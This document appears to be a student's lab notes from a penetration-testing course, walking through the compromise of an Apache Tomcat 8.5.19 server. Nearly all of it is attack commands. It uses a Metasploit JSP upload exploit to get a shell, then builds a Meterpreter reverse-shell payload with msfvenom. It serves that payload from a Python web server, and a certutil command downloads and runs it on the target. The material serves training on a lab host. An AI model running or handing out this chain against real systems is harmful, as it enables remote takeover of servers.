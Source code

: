 #### Exploiting Apache tomcat
- The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.
- The Apache Tomcat web server is primarily used to host dynamic websites or web applications developed in Java.
- Apache tomcat v8.5.19 is vulnerable to a remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP paylaod in order to gain remote access to the target server.
- We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server.
#### lab
- service postgresql start
- msfconsole
- workspace -a tomcat
- setg RHOSTS demo.ine.local
- db_nmap -sS -sV -O demo.ine.local
- services [ this show all the available services ]
- search type:exploit tomcat_jsp
- use exploit/multi/http/tomcat_jsp_upload_bypass
- set everything requires 
- set PAYLOAD java/jsp_shell_bind_tcp
- set SHELL cmd [ executing command ]
- run [this will create a cmd shell]
- ctrl + z [ background the sessions ]
- move into new tab 
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.4 LPORT=1234 -f exe > meterpreter.exe [ creating a meterpreter paylaod ]
- sudo python -m SimpleHTTPServer 80 [create a server]
- move to the windows sessions
- certutil -urlcache -f http://10.10.10.12/meterpreter.exe meterpeter.exe [ download the meterpreter file and save it as meterpreter from the attacker created server to windows sessions ]
- use multi/handler module to get meterpreter shell
- .\meterpreter.exe [ execute this command in windows sessions ]
- this give a meterpreter shell where multi/handler is set previously
  
